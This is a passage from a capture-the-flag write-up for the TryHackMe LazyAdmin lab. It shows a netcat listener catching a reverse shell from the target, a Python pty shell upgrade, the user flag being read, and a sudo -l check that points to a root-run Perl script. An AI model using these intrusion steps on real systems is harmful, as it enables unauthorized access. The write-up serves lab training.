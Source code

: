 Let's set up a listener to catch the reverse shell:

```
kali@kali:~/Desktop/thm/lazyadmin$ nc -nlvp 9001
listening on [any] 9001 ...
```

and now let's navigate to ``10.10.16.134/content/_themes/default/foot.php``. Looking back on the listener...

```
kali@kali:~/Desktop/thm/lazyadmin$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.2.19.105] from (UNKNOWN) [10.10.16.134] 44412
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 04:32:40 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We have a shell! First things first, let's use python to spawn a better shell.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now let's see if we can get the user flag..

```
$ cd /home/
cd /home/
$ ls
ls
itguy
$ cd itguy
cd itguy
$ ls 
ls
Desktop    Downloads  Picturesc Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
$cat user.txt
cat user.txt
THM{<redacted>}
$ 
```

## Priv Escalation

We have user! Now let's try to priv esc.

We'll try the classic ``sudo -l`` to see what we can run as root. 

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

